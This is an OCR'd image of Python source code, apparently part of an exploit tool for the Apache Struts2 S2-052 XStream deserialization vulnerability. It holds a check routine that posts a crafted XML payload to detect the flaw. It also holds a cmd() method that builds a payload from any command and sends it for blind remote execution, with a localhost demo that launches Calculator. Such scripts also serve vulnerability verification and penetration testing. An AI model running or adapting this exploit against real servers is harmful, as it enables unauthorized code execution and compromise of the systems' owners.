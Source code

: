 ```python
                            <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
                        </entry>
                    </map>
                '''

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            self.check_payload = self.payload.format(cmd = '<string>calc</string>')
            check_req = requests.post(self.url, headers = self.headers, data = self.check_payload)
            if check_req.status_code == 500 and 'java.security.Provider$Service' in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass
    
    def cmd(self, cmd):

        """
        执行命令

        :param str cmd: 要执行的命令

        :return tuple result: 执行的结果
        """

        try:
            if self.run():
                cmd_list = cmd.split(' ')
                cmd_str = ''
                for key in cmd_list:
                    cmd_str = cmd_str + "<string>" + key + "</string>"
                self.cmd_payload = self.payload.format(cmd = cmd_str)
                cmd_req = requests.post(self.url, headers = self.headers, data = self.cmd_payload)
                return True, '命令已执行,但无法回显'
            else:
                return False, '不存在S2_052漏洞'
        except Exception as e:
            return False, e
        finally:
            pass

if  __name__ == "__main__":
    S2_052 = S2_052_BaseVerify('http://127.0.0.1:8088/struts2_rest_showcase_war_exploded/orders/3')
    print(S2_052.run())
    print(S2_052.cmd('open -a Calculator'))
```
